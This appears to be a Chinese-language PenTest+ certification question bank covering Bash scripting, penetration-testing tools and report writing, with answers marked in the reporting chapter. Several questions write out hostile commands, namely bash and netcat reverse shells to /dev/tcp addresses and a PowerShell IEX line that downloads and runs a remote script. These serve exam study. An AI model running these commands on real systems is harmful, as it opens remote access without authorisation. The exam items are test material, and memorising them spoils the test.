1.  在 Shell 提示符下输入 `/bin/bash ~/myexploit`。
2.  在 Shell 提示符下输入 `myexploit`。
3.  在图形桌面中选择“计算机”➢“运行”；然后输入 `~/ myexploit` 并选择“运行”。
4.  在 Shell 提示符下输入 `run ~/ myexploit`。
5.  在 Shell 提示符下输入 `chmod u+x ~/ myexploit`；然后输入 `~/ myexploit`。

# 137. Bash 创建整型变量

哪条 Bash 脚本命令将创建一个名为 `TOTAL` 的新变量并将其类型设置为整数？

1.  `variable –i TOTAL`
2.  `declare –i TOTAL`
3.  `declare TOTAL –t integer`
4.  `TOTAL=integer`

# 138. Bash 重定向标准输出和标准错误

在 Bash 脚本中，你想要将 `tail /var/log/firewall` 命令的标准输出和标准错误发送到当前目录下名为 `lastevents` 的文件中。可以向脚本添加哪条命令来实现此目的？

1.  `tail /var/log/firewall 1> lastevents 2> lastevents`
2.  `tail /var/log/firewall > lastevents`
3.  `tail /var/log/firewall 1> lastevents 2> &1`
4.  `tail /var/log/firewall 1&2> lastevents`

# 139. 攻击 NetBIOS 名称服务

渗透测试人员想要攻击 NetBIOS 名称服务。哪个命令最有可能被用来利用 NetBIOS 名称服务？

1.  `arpspoof`
2.  `burpsuite`
3.  `nmap`
4.  `responder`

# 140. OSINT 数据收集工具

渗透测试人员想要从公开可用的来源进行开源情报 (OSINT) 数据收集。可以使用以下哪些工具？（选择两项。）

1.  `BeEF`
2.  `Dynamo`
3.  `Maltego`
4.  `SET`
5.  `Shodan`
6.  `Wireshark`

# 141. 凭证暴力破解工具

渗透测试人员想要对客户的应用程序执行凭证暴力破解攻击。应该使用以下哪个工具？

1.  `Hashcat`
2.  `Hydra`
3.  `John the Ripper`
4.  `Peach`

# 142. 攻击类型识别

渗透测试人员正试图攻击一个具有先前已识别用户账户的设备。



正在测试哪种类型的攻击？

1.  凭证转储
2.  DLL 注入
3.  传递哈希
4.  反向 Shell

# 143. 启动 Metasploit 数据库

渗透测试人员想要使用 Metasploit。以下哪条命令将启动 Metasploit 数据库？

1.  `db_connect`
2.  `db_init`
3.  `msfconsole`
4.  `msfvenom`

# 144. 捕获 NTLM v2 哈希工具

你是一名渗透测试人员，想要捕获网络上的 NTLM v2 哈希以用于传递哈希攻击。哪个工具**不**允许你捕获网络上的 NTLM v2 哈希？

1.  `Ettercap`
2.  `Mimikatz`
3.  `Metasploit`
4.  `Responder`

# 145. 反向 Shell 连接方法

渗透测试人员正在进行测试，并通过使用端口 443 访问了不受限制的系统网络。测试人员想要从客户端创建一个反向 Shell 回连到测试人员。测试人员最可能使用以下哪种方法？

1.  `bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1`
2.  `nc -e /bin/sh <SOURCEIP> 443`
3.  `perl -e 'use SOCKET'; $i='<SOURCEIP>; $p='443;`
4.  `ssh superadmin@<DESTINATIONIP> -p 443`

# 146. 历史文件命令分析

在渗透测试期间，在被攻陷机器的历史文件中发现了以下代码行：

```
bin/bash -i >& /dev/tcp/192.168.0.10/80 0> &1
```

以下哪项最能描述此命令行的作用？

1.  执行了端口扫描。
2.  获取 Web 服务器的横幅信息。
3.  将电传打字机 (TTY) 重定向到远程系统。
4.  删除给定 IP 的错误日志。

# 147. 传递哈希攻击测试工具

测试人员捕获了 NTLM 哈希并想要进行传递哈希攻击。不幸的是，测试人员不知道网络上哪些系统可能接受该哈希。测试人员应该使用什么工具来进行测试？

1.  `Drozer`
2.  `Hashcat`
3.  `Hydra`
4.  `Kismet`

# 148. 恶意网站部署工具

渗透测试人员想要部署一个恶意网站作为测试的一部分，以利用客户员工的浏览器。测试人员可以利用什么工具？

1.  浏览器利用框架 (`BeEF`)
2.  `Metasploit`
3.  开放 Web 应用程序安全项目 (`OWASP`)
4.  社会工程学工具包 (`SET`)

# 149. 自定义字典构建工具

你是一名渗透测试人员，计划利用客户的网站创建一个包含关于客户的常用单词和流行语的自定义字典。你可以利用的工具名称是什么，以协助构建自定义字典？

1.  `CeWL`
2.  `Hashcat`
3.  `Hydra`
4.  `Medusa`

# 150. PowerShell 远程脚本执行

你是一名渗透测试人员，正在使用 PowerShell 进行测试。测试人员正在使用以下 PowerShell 命令：

```
powershell.exe IEX (New-Object Net.Webclient).downloadstring("http://site/script.ps1");Invoke-Command
```

此命令执行什么操作？

1.  它执行远程脚本。
2.  它合并一个对象。
3.  它运行编码命令。
4.  它设置执行策略。

# 151. Nmap 扫描结果分析

你是一名渗透测试人员，并在一台计算机上运行了以下 Nmap 扫描：`nmap -sV 192.168.10.5`。客户表示已在其环境中禁用了 Telnet。然而，Nmap 扫描结果显示端口 22 关闭，而端口 23 开放 SSH。是什么原因导致了这种情况？

1.  组织未禁用 Telnet。
2.  Nmap 结果对端口 23 包含误报。
3.  服务运行在非标准端口上。
4.  端口 22 被过滤。

# 152. hping 命令流量类型

你是一名渗透测试人员，计划使用 `hping` 命令向远程系统发送流量。当你使用此脚本时：`hping remoteclient.com -S -V -p 80`，远程系统将看到什么类型的流量？

1.  发往 TCP 端口 80 的 HTTP 流量
2.  发往 TCP 端口 80 的 HTTPS 流量
3.  发往 TCP 端口 80 的 TCP SYN 包
4.  发往 TCP 端口 80 的 TCP 三次握手

# 153. Netcat 监听器语法

渗透测试人员正在进行测试并攻陷了客户的主机。在此设备上创建 Netcat 监听器的正确语法是什么？

1.  `nc -lp 4444 -e /bin/bash`
2.  `nc -lvp 4444 /bin/bash`
3.  `nc -p 4444 /bin/bash`
4.  `nc -vp 4444 /bin/bash`

# 154. Nmap 扫描所有 TCP 端口

如果渗透测试人员想要扫描已识别设备上的所有 TCP 端口，必须使用哪个 nmap 开关？

1.  `-p- 1-65535`
2.  `-p ALX`
3.  `-p 1-65544`
4.  `-port 1-65534`

# 155. 被动侦察工具

渗透测试人员想要对客户的外部域执行被动侦察。最佳选择是什么？

1.  `CeWL`
2.  `OpenVAS`
3.  `Peach`
4.  `Shodan`

# 156. 流量转发工具

渗透测试人员成功攻陷了一台似乎正在监听出站端口的 DMZ 服务器。测试人员想要将该流量转发回一台设备。最佳工具是什么？（选择两项。）

1.  `Cain and Abel`
2.  `Netcat`
3.  `Nmap`
4.  `Secure Shell (SSH)`
5.  `Tcpdump`
6.  `Wireshark`

# 157. Bash 脚本逻辑修正

一名渗透测试人员正在分析一个脚本，以确定为什么该脚本没有返回预期的正确结果。预期结果应为 `True`。

```
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```

通过审查脚本，测试人员如何纠正错误以返回正确结果？（选择两项。）

1.  将 `fi'` 改为 `'Endlf`
2.  移除 `dest=5+5` 前面的 `let`
3.  将 `\=` 改为 `\-eq`
4.  将 `\='source'\*` 和 `'dest'` 改为 `"$source"` 和 `"$dest"`
5.  将 `'else'` 改为 `'elif`

# 158. PowerShell 创建数组

你是一名渗透测试人员，想要使用 PowerShell 脚本创建一个数组。你会使用哪些代码行？

1.  `$ports = 20, 25, 80, 443`
2.  `ports = (20,25,80,443)`
3.  `ports = [20,25,80,443]`
4.  `$ports= [20,25,80,443]`

# 159. 反向 Shell 监听命令

测试人员打算在目标系统上运行以下命令：

`bash -i >& /dev/tcp/10.2.4.6/443 0>&1`

为了使上述命令生效，测试人员的 Linux 系统上还需要执行哪个额外命令？

1.  `nc -nvlp 443`
2.  `nc 10.2.4.6 443`
3.  `nc -w3 10.2.4.6 443`
4.  `nc-/bin/ah 10.2.4.6 443`

# 160. 模拟网络资源收集认证

在一次内部渗透测试期间，观察到多个多播和广播名称解析请求在网络中传输。测试人员想要模拟网络资源并收集认证请求。应该使用什么工具？

1.  Ettercap
2.  Medusa
3.  Tcpdump
4.  Responder

# 161. Nmap 使用文件列表进行操作系统指纹识别

一名渗透测试人员使用 `nmap`，受委托使用公司提供的包含所有 IP 地址列表的文本文件进行操作系统指纹识别。为了使用该文本文件进行操作系统指纹识别，你需要在代码中包含哪些开关？（选择两项。）

1.  `-iL`
2.  `-O`
3.  `-oN`
4.  `-oX`
5.  `-sS`
6.  `-sV`

# 162. Metasploit 访问私有网络

一名渗透测试人员正在使用 Metasploit。哪个命令允许测试人员从互联网访问私有网络？

1.  `db_nmp -iL /tmp/privatentwk.txt`
2.  `run autoroute -a 192.168.1.10/24`
3.  `set rhost 192.168.1.10`
4.  `use auxiliary/server/socks4a`

# 163. Windows 网络捕获用户哈希

你是一名渗透测试人员，想要在 Windows 网络上捕获用户哈希。你想要收集广播消息，并在捕获哈希后具备使用哈希进行认证的能力。你应该使用什么工具？

1.  Impacket
2.  Metasploit
3.  Responder
4.  Wireshark

# 164. Nmap 默认扫描端口数

你是一名渗透测试人员，想要使用 `nmap` 扫描远程系统。你将使用以下命令：

`nmap 142.78.32.0/24`

你将扫描多少个 TCP 端口？

1.  256
2.  1,000
3.  1,024
4.  65,535

# 165. Python 条件打印次数

你正在编写以下 Python 代码：

```
if 1 == 1:
   print("howdy")
elif 3 == 3:
   print("howdy")
else:
   print("howdy")
```

这段代码会打印多少次单词 *howdy*？

1.  0
2.  1
3.  2
4.  3

# 166. 搜索互联网连接设备工具

你是一名渗透测试人员，想要进行搜索，以查看客户连接到互联网的计算机和设备，并使用各种过滤器。你可以使用哪个工具来完成此任务？

1.  Censys
2.  Shodan


# 167.

你是一名渗透测试人员，想要进行搜索，以查看客户连接到互联网的计算机和设备，并在可用时显示地理 IP 信息。你可以使用哪个工具来完成此任务？

1.  Censys
2.  Shodan
3.  theHarvester
4.  Whois

# 168.

你是一名渗透测试人员，正在对特定的客户数据库服务器进行测试。你想要检测数据库服务器上的任何漏洞。哪个工具能最好地协助你？

1.  Nessus
2.  Nikto
3.  Sqlmap
4.  OpenVAS

# 第 5 章 报告与沟通

## PENTEST+ 考试大纲涵盖的本章主题

### 领域 5：报告与沟通

*   **5.1 给定场景，使用报告编写和处理的最佳实践。**

    *   数据标准化
    *   发现与修复的书面报告
        *   执行摘要
        *   方法论
        *   发现与修复
        *   指标与度量
        *   风险评级
        *   结论
    *   风险偏好
    *   报告存储时间
    *   报告的安全处理和处置

*   **5.2 解释报告交付后的活动。**

    *   交互后清理
        *   移除 Shell
        *   移除测试人员创建的凭据
        *   移除工具
    *   客户验收
    *   经验教训
    *   后续行动/重测
    *   发现证明

*   **5.3 给定场景，针对发现的漏洞推荐缓解策略。**

    *   解决方案
        *   人员
        *   流程
        *   技术
    *   发现
        *   共享本地管理员凭据
        *   弱密码复杂度
        *   明文密码
        *   无多因素认证
        *   SQL 注入
        *   不必要的开放服务
    *   修复
        *   随机化凭据/LAPS
        *   最低密码要求/密码过滤器
        *   加密密码
        *   实施多因素认证
        *   清理用户输入/参数化查询
        *   系统加固

*   **5.4 解释渗透测试过程中沟通的重要性。**

    *   沟通路径
    *   沟通触发器
        *   关键发现
        *   阶段
        *   先前妥协的指标
    *   沟通原因
        *   态势感知
        *   降级处理
        *   去冲突
    *   目标重新确定优先级

---

## 1. 数据标准化定义

你刚刚为客户完成了一次渗透测试。在测试期间，你使用了各种不同的工具来收集数据和进行漏洞利用。现在你需要将这些工具生成的所有数据汇总为一种一致、关联且可读的格式。这个过程叫什么？

1.  发现证明
2.  **数据标准化**
3.  降级处理
4.  去冲突

## 2. 报告方法论章节

你刚刚为客户完成了一次渗透测试，现在正在编写发现的书面报告。你需要确保读者明白你在测试过程中遵循了 PCI DSS 标准。你应该在报告的哪个部分包含此信息？

1.  发现
2.  修复
3.  指标与度量
4.  **方法论**

## 3. 态势感知定义

渗透测试期间测试人员与客户之间沟通的目标之一，是确保双方清楚了解网络当前的安全状态。以下哪个术语最能描述这种共同理解？

1.  **态势感知**
2.  降级处理
3.  去冲突
4.  目标重新确定优先级

## 4. 去冲突定义

在渗透测试期间，客户组织的网络管理员发现一起针对公司 Web 服务器的分布式拒绝服务 (DDoS) 攻击正在进行。管理员致电渗透测试人员，以验证该攻击是渗透测试的一部分，还是来自真正攻击者的攻击。这个过程叫什么？

1.  数据标准化
2.  态势感知
3.  **去冲突**
4.  目标重新确定优先级

## 5. DDoS 攻击期间的沟通路径

在渗透测试期间，客户组织开始收到客户投诉，指出该组织的 Web 服务器响应非常缓慢，甚至有时会崩溃。网络管理员发现一场针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击正在进行中。销售额正在损失，因此管理员致电渗透测试人员，要求他们停止攻击。这种沟通路径叫什么？

1.  态势感知
2.  **降级处理**
3.  去冲突
4.  目标重新确定优先级

## 6. 团队持续沟通协调行动

您的组织正在为客户进行黑盒渗透测试。渗透测试团队有五名成员。测试期间，您通过电子邮件和短信与团队其他成员持续沟通，以确保每个人都知道其他人在做什么。这个过程叫什么？

1.  **态势感知**
2.  指标与度量
3.  去冲突
4.  数据规范化

## 7. 团队协调活动时序

您的组织正在为客户进行黑盒渗透测试。渗透测试团队有五名成员。测试期间，您通过电子邮件和短信与团队其他成员持续沟通，以协调活动的时序，包括侦察、枚举、漏洞利用等。这个过程叫什么？

1.  态势感知
2.  降级处理
3.  **去冲突**
4.  数据规范化

## 8. LAND 攻击期间要求减弱攻击

在渗透测试期间，客户组织开始收到远程工作者的投诉，指出该组织的 VPN 宕机。网络管理员发现一场针对网络边缘 VPN 服务器的局域网拒绝（LAND）攻击正在进行中。远程工作者无法工作，因此管理员致电渗透测试人员，要求他们减弱攻击。这种沟通路径叫什么？

1.  态势感知
2.  **降级处理**
3.  去冲突
4.  目标重新确定优先级

## 9. Teardrop 攻击期间确认测试活动

在渗透测试期间，客户组织的网络管理员发现一场针对公司边界路由器的 teardrop 攻击正在进行中。管理员致电渗透测试人员，以查明该攻击是否属于渗透测试的一部分。这种沟通路径叫什么？

1.  态势感知
2.  指标与度量
3.  **去冲突**
4.  数据规范化

## 10. 测试开始前的团队规划会议

您的组织正在为客户进行黑盒渗透测试。团队有三名测试人员。流程开始时，您召开团队会议，规划测试如何进行、特定活动何时发生，以及哪些团队成员负责执行特定任务。这个过程叫什么？

1.  去冲突
2.  降级处理
3.  态势感知
4.  **目标重新确定优先级**

## 11. 核实闯入者身份

在渗透测试期间，一名人员因试图尾随进入客户组织设施而被抓获。闯入者声称是渗透测试人员，并坚持要求释放。在提起刑事指控之前，客户 IT 人员的一名成员致电渗透测试人员，以确定闯入者是否真的是渗透测试团队的成员。这种沟通路径叫什么？

1.  目标重新确定优先级
2.  **去冲突**
3.  态势感知
4.  降级处理

## 12. 物理入侵导致门锁失效

在渗透测试期间，一名测试人员使用借口（pretexting）获得了对客户设施的物理访问权限，并能够触发组织所有电子门锁系统的故障开启事件。结果，设施内的所有门都被解锁。客户的内部安全团队致电渗透测试人员，要求他们停止攻击并立即重新启用门锁。这个过程叫什么？

1.  态势感知
2.  目标重新确定优先级
3.  去冲突
4.  **降级处理**

## 13. 受信任代理的定义

以下哪项最能描述渗透测试期间的*受信任代理*？

1.  一名通过申请工作秘密渗透目标组织的测试人员
2.  **目标组织内部与渗透测试人员有直接沟通渠道的个人**
3.  渗透测试团队中与目标组织 IT 人员有直接沟通渠道的个人
4.  一名已由渗透测试人员简要介绍过测试情况的当地执法机关代表

## 14. 阶段转换通知

您正在为客户进行黑盒渗透测试。测试的侦察阶段已完成，您准备进入下一阶段。在此之前，您与客户沟通，告知测试正从一个阶段转移到另一个阶段。此场景中使用了哪种通信触发器？

1.  **阶段**
2.  关键发现
3.  沟通路径
4.  既往妥协指标

## 15. 发现关键漏洞立即预警

您正在为客户进行灰盒渗透测试。测试期间，您发现许多用户的 Windows 桌面系统未正确打补丁，仍易受几种常见勒索软件的攻击。您没有等到测试结束，而是立即与客户沟通，警告他们的系统存在漏洞。此场景中使用了哪种通信触发器？

1.  风险等级
2.  **关键发现**
3.  发现与修复
4.  既往妥协指标

## 16. 发现活跃后门账户

您正在为客户进行白盒渗透测试。测试期间，您在客户的一台 Active Directory 域控制器上发现了一个隐藏的后门管理员账户。您检查域控制器的日志，发现该后门账户正在每天被主动使用。您没有等到测试结束，而是立即与客户沟通，警告他们的服务器已被攻陷。此场景中使用了哪种通信触发器？

1.  阶段
2.  关键发现
3.  沟通路径
4.  **既往妥协指标**

## 17. 枚举阶段完成通知

您正在为客户进行黑盒渗透测试。测试的枚举阶段已完成，您准备开始利用脆弱系统。在此之前，您与客户沟通，告知测试正在过渡。此场景中使用了哪种通信触发器？

1.  风险等级
2.  关键发现
3.  发现与修复
4.  **阶段**

## 18. 发现疑似恶意软件放大网络

您正在为客户进行白盒渗透测试。测试期间，您注意到与分布式拒绝服务（DDoS）攻击一致的出站网络流量。您怀疑内部系统已感染恶意软件，形成了攻击的放大网络。您没有等到测试结束，而是立即与客户沟通进行预警。此场景中使用了哪种通信触发器？

1.  阶段
2.  **既往妥协指标**
3.  发现与修复
4.  关键发现

# 渗透测试通信触发器与报告编写场景题

## 19. 灰盒渗透测试：未加密 FTP 凭证泄露

您正在为客户进行灰盒渗透测试。测试期间，您发现技术支持人员正在使用经过身份验证但未加密的 FTP 连接通过互联网将文件传输到远程分支机构的计算机。因此，他们的凭证可能会在公共网络上暴露。尽管这是一个诱人的攻击目标，但您意识到这种做法带来的直接风险。您没有等到测试结束，而是立即与客户沟通，警告他们特权凭证可能正在互联网上暴露。此场景中使用了哪种通信触发器？

1.  Stages（阶段）
2.  **Critical findings（关键发现）**
3.  Communication path（通信路径）
4.  Indicators of prior compromise（先前妥协指标）

## 20. 黑盒渗透测试：测试完成与清理通知

您正在为客户进行黑盒渗透测试。测试现已完成，您准备开始清理工作。在清理前，您与客户沟通，告知测试已完成，并提醒他们清理活动即将开始。此场景中使用了哪种通信触发器？

1.  Risk rating（风险等级）
2.  Critical findings（关键发现）
3.  **Stages（阶段）**
4.  Indicators of prior compromise（先前妥协指标）

## 21. 黑盒渗透测试：密码明文张贴

您正在为一家小型金融机构进行黑盒渗透测试。通过借口攻击，您冒充复印机维修人员进入了目标设施。在大楼内走动时，您注意到几乎所有员工都将（过于复杂的）密码写在便利贴上，并贴在电脑显示器和键盘上。有些甚至显而易见，敏锐的客户都能看到。尽管这是一个诱人的攻击目标，但您意识到这种做法带来的直接风险。您没有等到测试结束，而是立即与客户沟通，警告他们凭证明文可见。此场景中使用了哪种通信触发器？

1.  Indicators of prior compromise（先前妥协指标）
2.  **Critical findings（关键发现）**
3.  Communication path（通信路径）
4.  Stages（阶段）

## 22. 白盒渗透测试：默认杀毒软件与木马应用

您正在为客户进行白盒渗透测试。测试期间，您注意到所有终端用户工作站仅配置了默认的 Windows 杀毒扫描程序。您进一步发现，许多终端用户用于完成日常工作的应用程序是一个已知的木马程序，常用于创建僵尸网络。您没有等到测试结束，而是立即与客户沟通进行警告。此场景中使用了哪种通信触发器？

1.  **Indicators of prior compromise（先前妥协指标）**
2.  Critical findings（关键发现）
3.  Communication path（通信路径）
4.  Stages（阶段）

## 23. PCI DSS 渗透测试：勒索软件爆发导致目标变更

您正在为客户进行 PCI DSS 渗透测试。测试过程中，一种危险的勒索软件漏洞利用开始在全球网络间传播。客户要求您暂停 PCI DSS 渗透测试，转而测试其网络是否易受这种新型恶意软件攻击。哪个术语最能描述此场景发生的情况？

1.  Situational awareness（态势感知）
2.  **Goal reprioritization（目标重新排序）**
3.  Indicators of prior compromise（先前妥协指标）
4.  Attestation of findings（发现证明）

## 24. 灰盒渗透测试：无线网络弱加密与信号泄露

您正在为客户进行灰盒渗透测试。测试过程中，您注意到其无线网络使用弱加密和易于暴力破解的预共享密钥（`00000001`）。此外，客户在设施内部署了全向接入点。您怀疑无线信号辐射远超建筑物范围。您联系客户，建议修改测试范围，从黑盒视角增加 Wi-Fi 网络测试。哪个术语最能描述此场景发生的情况？

1.  **Goal reprioritization（目标重新排序）**
2.  Attestation of findings（发现证明）
3.  Indicators of prior compromise（先前妥协指标）
4.  Situational awareness（态势感知）

## 25. 数据规范化定义

以下哪个术语指的是收集渗透测试中各种工具产生的数据，并将其格式化为一致的方式以便于阅读的过程？

1.  Attestation of findings（发现证明）
2.  **Normalization of data（数据规范化）**
3.  Remediation（修复）
4.  Disposition of reports（报告处置）

## 26. 报告方法论章节：NIST 800-115

您正在编写渗透测试后的书面发现报告。测试期间，您遵循了 `NIST 800-115` 标准。应在报告的哪个章节包含此信息？

1.  Executive summary（执行摘要）
2.  **Methodology（方法论）**
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）

## 27. 报告执行摘要章节

您正在编写渗透测试后的书面发现报告。应在报告的哪个章节为读者提供测试及结果的高层级概要？

1.  **Executive summary（执行摘要）**
2.  Methodology（方法论）
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）

## 28. 报告风险等级章节

您正在编写渗透测试后的书面发现报告。应在哪个章节报告风险等级？

1.  Executive summary（执行摘要）
2.  Methodology（方法论）
3.  **Findings and remediation（发现与修复）**
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 29. 面向非技术受众的报告章节

渗透测试书面发现报告的哪个章节旨在供技术水平较低的受众阅读？

1.  **Executive summary（执行摘要）**
2.  Methodology（方法论）
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 30. 报告方法论章节：CEH 规范

您正在编写渗透测试后的书面发现报告。测试期间，您遵循了 `EC-Council` 为其 `CEH`（Certified Ethical Hacker）认证制定的规范。应在报告的何处包含此信息？

1.  Executive summary（执行摘要）
2.  **Methodology（方法论）**
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 31. 报告发现与修复章节：WannaCry 漏洞

您正在编写渗透测试后的书面发现报告。测试期间，您发现网络中许多旧版 Windows 工作站未正确打补丁，易受 `WannaCry` 勒索软件攻击。应在报告的何处包含此信息？

1.  Executive summary（执行摘要）
2.  Methodology（方法论）
3.  **Findings and remediation（发现与修复）**
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 32. 报告发现与修复章节：MS17-010 修复建议

您正在编写渗透测试后的书面发现报告。测试期间，您发现网络中许多旧版 Windows 工作站未正确打补丁，易受 `WannaCry` 勒索软件攻击。为修复此问题，客户需要从微软安装 `MS17-010 – Critical` 更新。应在报告的何处包含此建议？

1.  Executive summary（执行摘要）
2.  Methodology（方法论）
3.  **Findings and remediation（发现与修复）**
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 33. 报告发现与修复章节：CVE 交叉引用与风险等级


您正在编写渗透测试后的书面发现报告。您将测试中发现的每个漏洞与 `CVE`（Common Vulnerabilities and Exposures）数据库进行交叉引用，为其分配 Low、Medium、High 或 Critical 的定性风险等级。这些风险等级应包含在报告的哪个位置？

1.  Executive summary（执行摘要）
2.  Methodology（方法论）
3.  **Findings and remediation（发现与修复）**
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

## 34. 报告结论章节：建议列表

您正在编写渗透测试后的书面发现报告。基于测试结果，您创建了一个建议列表，认为客户应重点关注。应在报告的何处包含您的建议？

1.  Executive summary（执行摘要）
2.  Methodology（方法论）
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）
5.  **Conclusion（结论）**

## 35. 报告执行摘要章节：风险偏好考量

您正在编写渗透测试后的书面发现报告。在决定包含哪些信息时，应在报告的哪个章节考虑客户的风险偏好？

1.  **Executive summary（执行摘要）**
2.  Methodology（方法论）
3.  Findings and remediation（发现与修复）
4.  Metrics and measures（指标与度量）
5.  Conclusion（结论）

# 1. 执行摘要

# 2. 方法论

# 3. 发现与修复

# 4. 指标与度量

# 5. 结论

## 36. 推荐后续渗透测试的位置

您正在渗透测试后生成一份发现书面报告。基于测试中发现的大量漏洞，您认为客户应在未来三个月内进行后续渗透测试，以验证问题已得到修复。应在报告的哪个位置包含此建议？

1.  Executive summary
2.  Methodology
3.  Findings and remediation
4.  Metrics and measures
5.  Conclusion

## 37. 报告存储时长要求

您刚刚完成渗透测试后为客户编写的发现报告。测试完成后，贵组织需要存储该文档多长时间？

1.  Six months
2.  One year
3.  Five years
4.  Depends on the client contract

## 38. 报告存储方式选择（第 1 组）

您刚刚完成渗透测试后为客户编写的发现报告。以下哪种是存储客户书面发现报告的适当方式？

1.  Print a hard copy and keep it in a file folder on your desk.
2.  Save it to a flash drive that is stored in a pen holder on your desk.
3.  Burn it to a rewritable optical disc and store it in desk drawer.
4.  Save it to an encrypted file on a file server.

## 39. 报告存储方式选择（第 2 组）

您刚刚完成渗透测试后为客户编写的发现报告。以下哪种是存储客户书面发现报告的适当方式？

1.  Print a hard copy and store it in a locked filing cabinet that has been bolted to the floor.
2.  Save it to your Google drive account.
3.  Save it in a file on your laptop.
4.  Burn it to a rewritable optical disc and store it in a CD caddy on your desk.

## 40. 报告存储方式选择（第 3 组）

您刚刚完成渗透测试后为客户编写的发现报告。以下哪种是存储客户书面发现报告的适当方式？

1.  Burn the report to an optical disk and store it in a locked safe bolted to your desk.
2.  Save the file to an encrypted flash drive.
3.  Copy the file to your phone.
4.  Save the report to a file on your workstation’s desktop.

## 41. 报告存储方式选择（第 4 组）

您刚刚完成渗透测试后为客户编写的发现报告。以下哪种是存储客户书面发现报告的适当方式？

1.  Burn the report to an optical disk and keep it in a hanging file folder in your desk.
2.  Save the file to an encrypted flash drive and store it in a locket cabinet.
3.  Copy the file to your phone.
4.  Save the report to your organization’s FTP server.

## 42. 处置存储在可移动硬盘上的报告

您需要处置几份旧客户的渗透测试报告。文件存储在一个放置在上锁保险柜中的可移动硬盘上。以下哪种是最佳处置方式？

1.  Delete the files from the drive.
2.  Use the `fdisk` utility to repartition the drive.
3.  Use disk wiping software on the drive.
4.  Reformat the drive.

## 43. 处置存储在上锁文件柜中的纸质报告

您需要处置几份旧客户的渗透测试报告。报告纸质版存储在一个固定在地板上的上锁文件柜中。以下哪种是最佳处置方式？

1.  Put the reports in the garbage.
2.  Put the reports in the recycle bin.
3.  Stack the reports upside down by your team’s printer for use as “scratch paper.”
4.  Shred the report in a cross-cut shredder.

## 44. 处置存储在 U 盘上的报告

您需要处置几份旧客户的渗透测试报告。文件存储在放置在上锁柜子中的 U 盘上。以下哪种是最佳处置方式？

1.  Smash the drives with a hammer.
2.  Delete the files from the drives.
3.  Use the Disk Management utility to repartition the drives.
4.  Reformat the drives using File Explorer in Windows.

## 45. 处置存储在可重写光盘上的报告

您需要处置几份旧客户的渗透测试报告。文件存储在放置在上锁柜子中的可重写光盘上。以下哪种是最佳处置方式？

1.  Delete the files from the discs.
2.  Shred the discs.
3.  Delete the files and then save new files to the discs.
4.  Reformat the discs.

## 46. 针对 VPN 社会工程学攻击的缓解策略类型

您刚刚结束为一家大量使用在家办公员工的客户进行的渗透测试。员工使用 VPN 连接。测试期间，您利用社会工程学手段攻破了一名员工的 VPN 连接并访问了内部网络。作为缓解策略，您建议客户为所有 VPN 连接实施多因素认证。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Tactical

## 47. 针对服务器机房物理入侵的缓解策略类型

您刚刚结束为一位客户的渗透测试。测试期间，您利用社会工程学技术进入了客户设施内的服务器机房。为解决此漏洞，您建议客户要求所有员工每六个月接受一次安全意识培训。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Tactical

## 48. 针对过期账户访问的缓解策略类型

您刚刚结束为一位客户的渗透测试。测试期间，您利用前员工遗留的过期用户账户访问了敏感文件服务器。为解决此漏洞，您建议客户在员工离职时立即移除其用户账户。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Strategic

## 49. 针对明文 Telnet 管理的缓解策略类型

您刚刚结束为一位客户的渗透测试。测试期间，您发现系统管理员使用未加密的 Telnet 会话远程管理敏感服务器。您通过嗅探网络流量捕获了这些连接中的管理凭据。为解决此漏洞，您建议客户要求所有 IT 员工通过网络安全认证考试。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Strategic

## 50. 针对弱密码暴力破解的缓解策略类型

您刚刚结束为一位客户的渗透测试。测试期间，您使用 `John the Ripper` 暴力破解了敏感 Windows 文件服务器上的管理员密码。为解决此漏洞，您建议客户实施组策略设置，要求使用复杂密码并在三次登录失败后锁定系统。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Scalable

## 51. 针对人员不足的缓解策略类型

您刚刚结束为一位客户的渗透测试。该客户拥有 2000 多名员工，但只有两名网络管理员。测试期间，您凭借攻击的巨大数量迅速压垮了他们。为解决此漏洞，您建议客户聘请更多具有网络安全资质和经验的网络管理员。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Scalable

## 52. 针对共享云盘滥用的缓解策略类型

您刚刚结束为一位客户的渗透测试。测试期间，您发现该组织员工大量使用共享 Google Drive 账户进行协作。您利用社会工程学漏洞访问了该共享账户并获取了敏感文件。为解决此漏洞，您建议客户禁止员工这种做法。这属于哪种类型的解决方案？

1.  Technological
2.  People
3.  Process
4.  Scalable

# 渗透测试后续建议题库

## 53. 物理安全漏洞修复建议

您刚刚结束对某客户的渗透测试。测试期间，您通过跟随一群员工尾随进入了客户的物理设施。为解决此漏洞，您建议客户在设施入口处实施**人员闸（man-trap）锁控门**。这属于哪类解决方案？

1.  技术型
2.  人员型
3.  流程型
4.  可扩展型

## 54. 无线网络信号泄露修复建议

